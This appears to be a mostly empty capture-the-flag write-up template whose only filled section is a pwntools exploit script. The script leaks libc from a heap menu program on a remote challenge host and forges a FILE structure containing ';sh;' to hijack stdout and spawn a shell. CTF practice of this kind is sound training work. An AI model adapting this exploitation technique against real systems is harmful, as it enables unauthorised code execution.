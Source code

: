# Challenge Name - CTF Name
## Challenge Info
- Date: YYYY-MM-DD
- CTF Name:
- Category: web/pwn/rev/crypto/forensic/osint/misc
- Difficulty (subjective): easy/medium/hard
- Points:
- Provided Files:
- tools:
## Brief Description
## Initial Analysis
### Environment
### Code
## Vulnerability
## Exploit
### Strategy
### Exploitation Steps
### Stack Frame of main
| Variable Name | Offset from EBP |
| --- | --- |
### payload
``` python
from pwn import *

#r = process("./prob")
r = remote("3.35.12.237", 12345)

def register(ip, info, status):
    r.sendlineafter(">> ", "1")
    r.sendafter("address: ", ip)
    r.sendafter("info: ", info)
    r.sendlineafter("): ", str(status))

def update(idx, ip, info):
    r.sendlineafter(">> ", "2")
    r.sendlineafter("update: ", str(idx))
    r.sendafter("address: ", ip)
    r.sendafter("info: ", info)

def free():
    r.sendlineafter(">> ", "4")

def end():
    r.sendlineafter("...", "5")

register("Sechack", "Sechack", 1)
free()
end()
free()
end()
register("Sechack", b"\x20", 1)
free()

r.recvuntil("info : ")
libc = u64(r.recvn(6).ljust(8, b"\x00"))
libc_base = libc - 0x203b20
stdout = libc_base + 0x2045c0
wfile = libc_base + 0x202228
buf = libc_base + 0x204643
lock = libc_base + 0x205710
system = libc_base + 0x58750
log.info(hex(libc))

end()

r.sendlineafter(">> ", "3")
r.sendlineafter(">> ", "1")
r.sendafter("payload :", p64(buf)+p64(stdout)+p64(1))

fake = b"\x01\x01\x01\x01;sh;"
fake += p64(0)
fake += p64(buf)*2
fake += p64(0)*2
fake += p64(0)*7
fake += p64(system)
fake += p64(1)
fake += p64(0xffffffffffffffff)
fake += p64(0)
fake += p64(lock)
fake += p64(0xffffffffffffffff)
fake += p64(0)
fake += p64(stdout-0x10)
fake += p64(0)*3
fake += p64(0xffffffff)
fake += p64(0)
fake += p64(stdout)
fake += p64(wfile - 0X20)

update(1, "Sechack", fake)

r.interactive()
```
